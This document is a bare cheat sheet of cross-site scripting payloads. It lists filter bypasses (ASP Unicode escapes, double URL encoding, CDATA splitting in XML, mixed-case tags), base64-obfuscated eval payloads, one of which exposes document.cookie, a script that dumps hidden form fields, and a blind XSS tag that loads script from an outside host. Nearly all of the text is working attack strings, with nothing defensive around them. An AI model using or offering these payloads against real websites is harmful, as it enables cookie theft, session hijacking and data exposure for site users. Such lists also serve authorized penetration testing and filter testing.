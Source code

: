 Blind XSS payload XXShunter

```"><script src=https://a007.xss.ht></script>```

ASP filter bypass

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

Double URL encoding

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

XSS in XML

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

 Where :// is required after protocol

```javascript://%250aalert(1)```

XSS in email addresses

```"\"><s>test"@gmail.com```
  
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<imG/sRc=l oNerrOr=(prompt)() x>```

 ```<body onpageshow=alert(1)>```

```<style onload=alert(1)>```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<d3"<"/onclick="1>[confirm``]"<">z```

```&lt;script&gt;confirm(1)&lt;/script&gt;```

GET Hidden Fields data

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS```

```<svg/x=">"/onload=confirm()//```

```<sCript x>(((confirm)))``</scRipt x>```
